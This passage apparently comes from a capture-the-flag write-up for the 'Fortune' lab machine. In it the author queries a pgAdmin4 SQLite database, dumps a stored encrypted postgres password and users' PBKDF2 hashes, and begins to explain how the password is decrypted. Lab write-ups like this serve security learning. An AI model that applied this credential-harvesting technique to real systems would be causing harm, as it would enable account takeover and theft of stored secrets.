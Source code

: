 

    fortune$ sqlite3 pgadmin4.db
    SQLite version 3.24.0 2018-06-04 19:24:41
    Enter ".help" for usage hints.
    sqlite> .tables
    alembic_version              roles_users
    debugger_function_arguments  server
    keys                         servergroup
    module_preference            setting
    preference_category          user
    preferences                  user_preferences
    process                      version
    role
    sqlite> select * from server;
    1|2|2|fortune|localhost|5432|postgres|dba|utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz||prefer||||||<STORAGE_DIR>/.postgresql/postgresql.crt|<STORAGE_DIR>/.postgresql/postgresql.key|||0||||0||22||0||0|



I'll pull the column headings for the `server` table, and see that the
second column above (which has the value 2) is `user_id`:



    sqlite> PRAGMA table_info(server);
    0|id|INTEGER|1||1
    1|user_id|INTEGER|1||0
    2|servergroup_id|INTEGER|1||0
    3|name|VARCHAR(128)|1||0
    4|host|VARCHAR(128)|0||0
    5|port|INTEGER|1||0
    6|maintenance_db|VARCHAR(64)|0||0
    7|username|VARCHAR(64)|1||0
    8|password|VARCHAR(64)|0||0
    9|role|VARCHAR(64)|0||0
    ...[snip]...



Querying the `user` table, I can see the user with id 2 is bob:



    sqlite> select * from user;;
    1|charlie@fortune.htb|$pbkdf2-sha512$25000$3hvjXAshJKQUYgxhbA0BYA$iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe95KqiAyf37.v1lmCunWVkmfr93Wi6.W.UzaQ|1|
    2|bob@fortune.htb|$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg|1|



I also get bob's password hash.

### How To Decrypt

In `/usr/local/pgadmin4/pgadmin4-3.4/web/pgadmin/utils/crypto.py`, I
find the `decrpyt` function:
